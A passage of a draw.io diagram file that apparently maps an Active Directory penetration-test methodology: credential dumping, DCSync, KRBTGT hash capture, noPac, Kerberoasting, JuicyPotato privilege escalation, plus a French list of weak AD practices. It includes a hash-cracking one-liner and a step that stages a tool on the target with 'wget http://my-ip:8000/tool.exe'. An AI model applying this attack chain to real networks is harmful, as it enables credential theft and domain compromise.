        </mxCell>
        <mxCell id="ZDy4xXztmy_Uh2uV_-2A-5" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="ZDy4xXztmy_Uh2uV_-2A-1" target="ZDy4xXztmy_Uh2uV_-2A-3" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="ZDy4xXztmy_Uh2uV_-2A-1" value="&lt;div&gt;search machines that domain adin has logged&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#2a7bde&quot;&gt;with bloodhound&lt;/font&gt;&lt;br&gt;&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="582" y="380" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="ZDy4xXztmy_Uh2uV_-2A-6" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;" parent="1" source="ZDy4xXztmy_Uh2uV_-2A-3" target="orcKsDgMiDMdKtN4nEvD-2" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="ZDy4xXztmy_Uh2uV_-2A-3" value="&lt;div&gt;dump passwords&lt;/div&gt;&lt;div&gt;of users who have logged into the machine&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#2a7bde&quot;&gt;crackmapexec&lt;/font&gt;&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="897.5" y="365" width="175" height="90" as="geometry" />
        </mxCell>
        <mxCell id="ezBXcHe37mE9WKMKeRkE-2" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0.75;entryY=1;entryDx=0;entryDy=0;strokeColor=#ff3333;strokeWidth=3;" parent="1" source="ezBXcHe37mE9WKMKeRkE-1" target="orcKsDgMiDMdKtN4nEvD-2" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="ezBXcHe37mE9WKMKeRkE-1" value="&lt;div&gt;SAMAccountName Spoofing&lt;/div&gt;&lt;div&gt;CVE-2021-42278 and CVE-2021-42287&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#2a7bde&quot;&gt;nopac.py&lt;/font&gt;&lt;br&gt;&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-420" y="1250" width="180" height="70" as="geometry" />
        </mxCell>
        <mxCell id="ezBXcHe37mE9WKMKeRkE-15" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;strokeColor=#f0f0f0;strokeWidth=1;fontColor=#2a7bde;" parent="1" source="ezBXcHe37mE9WKMKeRkE-4" target="ezBXcHe37mE9WKMKeRkE-14" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="ezBXcHe37mE9WKMKeRkE-4" value="KRBTGT hash" style="rounded=1;whiteSpace=wrap;html=1;fillColor=#520700;strokeColor=#B20000;fontColor=#ffffff;" parent="1" vertex="1">
          <mxGeometry x="1270" y="575" width="160" height="72.5" as="geometry" />
        </mxCell>
        <mxCell id="ezBXcHe37mE9WKMKeRkE-11" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;strokeColor=#f0f0f0;strokeWidth=1;fontColor=#2a7bde;" parent="1" source="ezBXcHe37mE9WKMKeRkE-8" target="ezBXcHe37mE9WKMKeRkE-4" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="ezBXcHe37mE9WKMKeRkE-8" value="&lt;div&gt;DCsync&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#2a7bde&quot;&gt;secretdump.py&lt;/font&gt;&lt;br&gt;&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="1150" y="455" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="ezBXcHe37mE9WKMKeRkE-16" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=0.75;entryY=0;entryDx=0;entryDy=0;strokeColor=#f0f0f0;strokeWidth=1;fontColor=#2a7bde;" parent="1" source="ezBXcHe37mE9WKMKeRkE-14" target="ezBXcHe37mE9WKMKeRkE-4" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="ezBXcHe37mE9WKMKeRkE-14" value="&lt;div&gt;Clean and crack hash&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#2a7bde&quot;&gt;cat hashs.ntds | cut -d : -f 4 |sort|uniq &amp;gt; JustTheHashes.txt&lt;/font&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#2a7bde&quot;&gt;hashcat -m 1000&lt;/font&gt;&lt;/div&gt;" style="whiteSpace=wrap;html=1;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="1450" y="410" width="330" height="70" as="geometry" />
        </mxCell>
        <mxCell id="f-eIXB1MB5Z8f-WhWKSM-1" value="Enumerate ADCS" style="rounded=1;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-420" y="1350" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="QNvsHd57DNMUPzB0j-Tn-4" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" parent="1" source="QNvsHd57DNMUPzB0j-Tn-1" target="QNvsHd57DNMUPzB0j-Tn-3" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="QNvsHd57DNMUPzB0j-Tn-1" value="&lt;div&gt;Connect to computer&lt;/div&gt;&lt;div&gt;lateral mouv&lt;br&gt;&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-420" y="960" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="QNvsHd57DNMUPzB0j-Tn-5" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="QNvsHd57DNMUPzB0j-Tn-3" target="_CGyanOoc56hwBKu-glQ-7" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="QNvsHd57DNMUPzB0j-Tn-6" style="rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" parent="1" source="QNvsHd57DNMUPzB0j-Tn-3" target="_CGyanOoc56hwBKu-glQ-10" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="QNvsHd57DNMUPzB0j-Tn-3" value="Privesc" style="whiteSpace=wrap;html=1;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="-220" y="960" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="f0MQeKMFGhf8GMfAAniV-2" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" parent="1" source="DVKqNXfHbSLTBPjBEosU-1" target="f0MQeKMFGhf8GMfAAniV-1" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="DVKqNXfHbSLTBPjBEosU-1" value="&lt;div&gt;Enumerate MSSQL&lt;code&gt;&lt;pre&gt;&lt;font color=&quot;#2a7bde&quot;&gt;GetUserSPNs.py&lt;/font&gt;&lt;/pre&gt;&lt;/code&gt;&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-418" y="1440" width="130" height="70" as="geometry" />
        </mxCell>
        <mxCell id="f0MQeKMFGhf8GMfAAniV-3" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0.75;entryY=1;entryDx=0;entryDy=0;" parent="1" source="f0MQeKMFGhf8GMfAAniV-1" target="Iw_T4d_-wb4pz08Lo9XD-3" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="f0MQeKMFGhf8GMfAAniV-1" value="Abuse MSSQL" style="rounded=1;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-140" y="1445" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="f0MQeKMFGhf8GMfAAniV-4" value="Abuse ADCS" style="rounded=1;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-170" y="1350" width="120" height="60" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
  <diagram id="25-pziB65gClKSstn0mv" name="Privesc">
    <mxGraphModel dx="1320" dy="608" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="1169" pageHeight="827" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="eydW96J8nSPCopO3k54l-1" value="standard user" style="rounded=1;whiteSpace=wrap;html=1;fillColor=#60a917;fontColor=#ffffff;strokeColor=#2D7600;" vertex="1" parent="1">
          <mxGeometry x="40" y="220" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="eydW96J8nSPCopO3k54l-2" value="Privileged user" style="rounded=1;whiteSpace=wrap;html=1;fillColor=#a20025;fontColor=#ffffff;strokeColor=#6F0000;" vertex="1" parent="1">
          <mxGeometry x="970" y="210" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="eydW96J8nSPCopO3k54l-3" value="winPEAS" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="540" y="135" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="eydW96J8nSPCopO3k54l-4" value="linPEAS" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="550" y="270" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="eydW96J8nSPCopO3k54l-6" style="rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="eydW96J8nSPCopO3k54l-5" target="eydW96J8nSPCopO3k54l-3">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="eydW96J8nSPCopO3k54l-7" style="rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="eydW96J8nSPCopO3k54l-5" target="eydW96J8nSPCopO3k54l-4">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="eydW96J8nSPCopO3k54l-5" value="&lt;div&gt;send script on remote machine&lt;/div&gt;&lt;div&gt;mine: python3 -m http.server 8000&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#4a86e8&quot;&gt;remote:wget http://my-ip:8000/&lt;br&gt;&lt;/font&gt;&lt;/div&gt;&lt;font color=&quot;#4a86e8&quot;&gt;tool.exe&lt;/font&gt;" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="220" y="195" width="230" height="110" as="geometry" />
        </mxCell>
        <mxCell id="qmehafYx0e8W1bQMVf-2-1" value="&lt;div&gt;SEImpersonate Privilege&lt;/div&gt;&lt;div&gt;&lt;font color=&quot;#4a86e8&quot;&gt;JuicyPotato.exe&lt;/font&gt;&lt;br&gt;&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="710" y="135" width="120" height="60" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
  <diagram id="oTci8SejxHdYvOjTQ01X" name="Bonnes pratiques">
    <mxGraphModel dx="2741" dy="-287" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-1" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;strokeColor=#000000;" parent="1" source="oVyD5hO7Ps2CTn3XRuPj-11" target="oVyD5hO7Ps2CTn3XRuPj-12" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-2" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;strokeColor=#000000;" parent="1" source="oVyD5hO7Ps2CTn3XRuPj-11" target="oVyD5hO7Ps2CTn3XRuPj-13" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-3" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;strokeColor=#000000;" parent="1" source="oVyD5hO7Ps2CTn3XRuPj-11" target="oVyD5hO7Ps2CTn3XRuPj-14" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-4" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;strokeColor=#000000;" parent="1" source="oVyD5hO7Ps2CTn3XRuPj-11" target="oVyD5hO7Ps2CTn3XRuPj-15" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-5" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;strokeColor=#000000;" parent="1" source="oVyD5hO7Ps2CTn3XRuPj-11" target="oVyD5hO7Ps2CTn3XRuPj-16" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-6" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;strokeColor=#000000;fontSize=12;" parent="1" source="oVyD5hO7Ps2CTn3XRuPj-11" target="oVyD5hO7Ps2CTn3XRuPj-17" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-7" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;strokeColor=#000000;fontSize=11;" parent="1" source="oVyD5hO7Ps2CTn3XRuPj-21" target="oVyD5hO7Ps2CTn3XRuPj-18" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-8" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;strokeColor=#000000;fontSize=12;exitX=1.008;exitY=0.383;exitDx=0;exitDy=0;exitPerimeter=0;" parent="1" source="oVyD5hO7Ps2CTn3XRuPj-21" target="oVyD5hO7Ps2CTn3XRuPj-19" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-9" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;strokeColor=#000000;fontSize=12;exitX=1;exitY=0.5;exitDx=0;exitDy=0;" parent="1" source="oVyD5hO7Ps2CTn3XRuPj-21" target="oVyD5hO7Ps2CTn3XRuPj-20" edge="1">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="220" y="1391" as="sourcePoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-10" value="" style="edgeStyle=none;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;strokeColor=#000000;fontSize=12;" parent="1" source="oVyD5hO7Ps2CTn3XRuPj-11" target="oVyD5hO7Ps2CTn3XRuPj-21" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-11" value="Mauvaises pratiques AD" style="rounded=1;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-170" y="1361" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-12" value="Mauvaise gestion des droits sur les dossiers paratgés" style="whiteSpace=wrap;html=1;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="20" y="1250" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-13" value="SMBv1 activé" style="whiteSpace=wrap;html=1;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="30" y="1691" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-14" value="&lt;span style=&quot;background-color: transparent;&quot;&gt;&lt;font style=&quot;font-size: 11px;&quot;&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; font-variant-ligatures: none !important; font-style: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; text-align: left; text-indent: 0px; text-transform: none; word-spacing: 0px; -webkit-text-stroke-width: 0px; text-decoration-style: initial; text-decoration-color: initial; line-height: 15.4px; font-family: Verdana, Verdana_EmbeddedFont, Verdana_MSFontService, sans-serif;&quot; class=&quot;TextRun SCXW149403419 BCX7&quot; data-contrast=&quot;none&quot; lang=&quot;FR-FR&quot;&gt;&lt;/span&gt;&lt;/font&gt;&lt;/span&gt; &lt;span style=&quot;background-color: transparent;&quot;&gt;&lt;font style=&quot;font-size: 11px;&quot;&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; font-variant-ligatures: none !important; font-style: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; text-align: left; text-indent: 0px; text-transform: none; word-spacing: 0px; -webkit-text-stroke-width: 0px; text-decoration-style: initial; text-decoration-color: initial; line-height: 15.4px; font-family: Verdana, Verdana_EmbeddedFont, Verdana_MSFontService, sans-serif;&quot; class=&quot;TextRun SCXW149403419 BCX7&quot; data-contrast=&quot;none&quot; lang=&quot;FR-FR&quot;&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; -webkit-user-drag: none; -webkit-tap-highlight-color: transparent;&quot; class=&quot;NormalTextRun SCXW149403419 BCX7&quot;&gt;Système d&#39;exploitation obsolète&lt;/span&gt;&lt;/span&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; text-align: left; text-indent: 0px; text-transform: none; word-spacing: 0px; -webkit-text-stroke-width: 0px; text-decoration-style: initial; text-decoration-color: initial; line-height: 15.4px; font-family: Verdana, Verdana_EmbeddedFont, Verdana_MSFontService, sans-serif;&quot; data-ccp-props=&quot;{&amp;quot;201341983&amp;quot;:0,&amp;quot;335559739&amp;quot;:120,&amp;quot;335559740&amp;quot;:264}&quot; class=&quot;EOP SCXW149403419 BCX7&quot;&gt;&amp;nbsp;&lt;/span&gt;&lt;/font&gt;&lt;/span&gt;" style="whiteSpace=wrap;html=1;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="30" y="1611" width="120" height="70" as="geometry" />
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-15" value="&lt;span style=&quot;background-color: transparent;&quot;&gt;&lt;font style=&quot;font-size: 12px;&quot;&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; font-variant-ligatures: none !important; font-style: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; text-align: left; text-indent: 0px; text-transform: none; word-spacing: 0px; -webkit-text-stroke-width: 0px; text-decoration-style: initial; text-decoration-color: initial; line-height: 15.4px; font-family: Verdana, Verdana_EmbeddedFont, Verdana_MSFontService, sans-serif;&quot; class=&quot;TextRun SCXW23299233 BCX7&quot; data-contrast=&quot;none&quot; lang=&quot;FR-FR&quot;&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; -webkit-user-drag: none; -webkit-tap-highlight-color: transparent;&quot; class=&quot;NormalTextRun SCXW23299233 BCX7&quot;&gt;Administrateur local &lt;/span&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; -webkit-user-drag: none; -webkit-tap-highlight-color: transparent;&quot; class=&quot;NormalTextRun SCXW23299233 BCX7&quot;&gt;répliqué&lt;/span&gt;&lt;/span&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; text-align: left; text-indent: 0px; text-transform: none; word-spacing: 0px; -webkit-text-stroke-width: 0px; text-decoration-style: initial; text-decoration-color: initial; line-height: 15.4px; font-family: Verdana, Verdana_EmbeddedFont, Verdana_MSFontService, sans-serif;&quot; data-ccp-props=&quot;{&amp;quot;201341983&amp;quot;:0,&amp;quot;335559739&amp;quot;:120,&amp;quot;335559740&amp;quot;:264}&quot; class=&quot;EOP SCXW23299233 BCX7&quot;&gt;&amp;nbsp;&lt;/span&gt;&lt;/font&gt;&lt;/span&gt;" style="whiteSpace=wrap;html=1;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="20" y="1531" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-16" value="&lt;span style=&quot;background-color: transparent;&quot;&gt;&lt;font style=&quot;font-size: 12px;&quot;&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; font-variant-ligatures: none !important; font-style: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; text-align: left; text-indent: 0px; text-transform: none; word-spacing: 0px; -webkit-text-stroke-width: 0px; text-decoration-style: initial; text-decoration-color: initial; line-height: 15.4px; font-family: Verdana, Verdana_EmbeddedFont, Verdana_MSFontService, sans-serif;&quot; class=&quot;TextRun SCXW219254128 BCX7&quot; data-contrast=&quot;none&quot; lang=&quot;FR-FR&quot;&gt;&lt;/span&gt;&lt;/font&gt;&lt;/span&gt; &lt;span style=&quot;background-color: transparent;&quot;&gt;&lt;font style=&quot;font-size: 12px;&quot;&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; font-variant-ligatures: none !important; font-style: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; text-align: left; text-indent: 0px; text-transform: none; word-spacing: 0px; -webkit-text-stroke-width: 0px; text-decoration-style: initial; text-decoration-color: initial; line-height: 15.4px; font-family: Verdana, Verdana_EmbeddedFont, Verdana_MSFontService, sans-serif;&quot; class=&quot;TextRun SCXW219254128 BCX7&quot; data-contrast=&quot;none&quot; lang=&quot;FR-FR&quot;&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; -webkit-user-drag: none; -webkit-tap-highlight-color: transparent;&quot; class=&quot;NormalTextRun SCXW219254128 BCX7&quot;&gt;Signature SMB non requise&lt;/span&gt;&lt;/span&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; text-align: left; text-indent: 0px; text-transform: none; word-spacing: 0px; -webkit-text-stroke-width: 0px; text-decoration-style: initial; text-decoration-color: initial; line-height: 15.4px; font-family: Verdana, Verdana_EmbeddedFont, Verdana_MSFontService, sans-serif;&quot; data-ccp-props=&quot;{&amp;quot;201341983&amp;quot;:0,&amp;quot;335559739&amp;quot;:120,&amp;quot;335559740&amp;quot;:264}&quot; class=&quot;EOP SCXW219254128 BCX7&quot;&gt;&amp;nbsp;&lt;/span&gt;&lt;/font&gt;&lt;/span&gt;" style="whiteSpace=wrap;html=1;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="20" y="1461" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-17" value="&lt;span style=&quot;background-color: transparent;&quot;&gt;&lt;font style=&quot;font-size: 11px;&quot;&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; font-variant-ligatures: none !important; font-style: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; text-align: left; text-indent: 0px; text-transform: none; word-spacing: 0px; -webkit-text-stroke-width: 0px; text-decoration-style: initial; text-decoration-color: initial; line-height: 15.4px; font-family: Verdana, Verdana_EmbeddedFont, Verdana_MSFontService, sans-serif;&quot; class=&quot;TextRun SCXW238315089 BCX7&quot; data-contrast=&quot;none&quot; lang=&quot;FR-FR&quot;&gt;&lt;/span&gt;&lt;/font&gt;&lt;/span&gt; &lt;span style=&quot;background-color: transparent;&quot;&gt;&lt;font style=&quot;font-size: 11px;&quot;&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; font-variant-ligatures: none !important; font-style: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; text-align: left; text-indent: 0px; text-transform: none; word-spacing: 0px; -webkit-text-stroke-width: 0px; text-decoration-style: initial; text-decoration-color: initial; line-height: 15.4px; font-family: Verdana, Verdana_EmbeddedFont, Verdana_MSFontService, sans-serif;&quot; class=&quot;TextRun SCXW238315089 BCX7&quot; data-contrast=&quot;none&quot; lang=&quot;FR-FR&quot;&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; -webkit-user-drag: none; -webkit-tap-highlight-color: transparent;&quot; class=&quot;NormalTextRun SCXW238315089 BCX7&quot;&gt;Information d&#39;authentification en claires dans un fichier&lt;/span&gt;&lt;/span&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; text-align: left; text-indent: 0px; text-transform: none; word-spacing: 0px; -webkit-text-stroke-width: 0px; text-decoration-style: initial; text-decoration-color: initial; line-height: 15.4px; font-family: Verdana, Verdana_EmbeddedFont, Verdana_MSFontService, sans-serif;&quot; data-ccp-props=&quot;{&amp;quot;201341983&amp;quot;:0,&amp;quot;335559739&amp;quot;:120,&amp;quot;335559740&amp;quot;:264}&quot; class=&quot;EOP SCXW238315089 BCX7&quot;&gt;&amp;nbsp;&lt;/span&gt;&lt;/font&gt;&lt;/span&gt;" style="whiteSpace=wrap;html=1;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="30" y="1761" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-18" value="Ancienneté Mot de passe &amp;gt; 1 an" style="whiteSpace=wrap;html=1;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="440" y="1431" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="oVyD5hO7Ps2CTn3XRuPj-19" value="&lt;font style=&quot;font-size: 12px;&quot;&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; font-variant-ligatures: none !important; font-style: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; text-align: left; text-indent: 0px; text-transform: none; word-spacing: 0px; -webkit-text-stroke-width: 0px; background-color: rgb(255, 255, 255); text-decoration-style: initial; text-decoration-color: initial; color: rgb(0, 0, 0); line-height: 15.4px; font-family: Verdana, Verdana_EmbeddedFont, Verdana_MSFontService, sans-serif;&quot; class=&quot;TextRun SCXW12427834 BCX7&quot; data-contrast=&quot;none&quot; lang=&quot;FR-FR&quot;&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; -webkit-user-drag: none; -webkit-tap-highlight-color: transparent;&quot; class=&quot;NormalTextRun SCXW12427834 BCX7&quot;&gt;Politique de mot de passe faible&lt;/span&gt;&lt;/span&gt;&lt;span style=&quot;margin: 0px; padding: 0px; user-select: text; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; text-align: left; text-indent: 0px; text-transform: none; word-spacing: 0px; -webkit-text-stroke-width: 0px; background-color: rgb(255, 255, 255); text-decoration-style: initial; text-decoration-color: initial; line-height: 15.4px; font-family: Verdana, Verdana_EmbeddedFont, Verdana_MSFontService, sans-serif; color: rgb(0, 0, 0);&quot; data-ccp-props=&quot;{&amp;quot;201341983&amp;quot;:0,&amp;quot;335559739&amp;quot;:120,&amp;quot;335559740&amp;quot;:264}&quot; class=&quot;EOP SCXW12427834 BCX7&quot;&gt;&amp;nbsp;&lt;/span&gt;&lt;/font&gt;" style="whiteSpace=wrap;html=1;rounded=1;" parent="1" vertex="1">
          <mxGeometry x="440" y="1291" width="120" height="60" as="geometry" />
        </mxCell>
